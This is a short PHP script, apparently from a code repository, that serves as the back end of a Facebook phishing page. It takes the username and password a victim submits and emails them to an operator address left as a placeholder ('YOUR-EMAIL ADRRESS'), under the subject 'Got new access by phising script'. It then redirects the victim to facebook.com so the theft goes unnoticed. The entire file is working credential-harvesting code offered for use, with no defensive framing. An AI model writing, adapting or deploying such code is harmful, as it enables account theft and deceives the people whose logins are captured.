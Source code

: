 # do-action.php
<?php

	function mail_sender(){
		if(! ( isset($_REQUEST['username']) && isset($_REQUEST['password']) ) ){
			return false;
		}

		$username = $_REQUEST['username'];
		$password = $_REQUEST['password'];
		
		$reciever = "YOUR-EMAIL ADRRESS";
		
		$subject = "Got new access by phising script";
		$message = "The username is ". $username;
		$message .= "and password is ". $password;
		
		return mail($reciever, $subject, $message);
	}
	
	if(mail_sender()){
		header("Location: http://www.facebook.com");
	}
	header("location:javascript://history.go(-1)");
?>
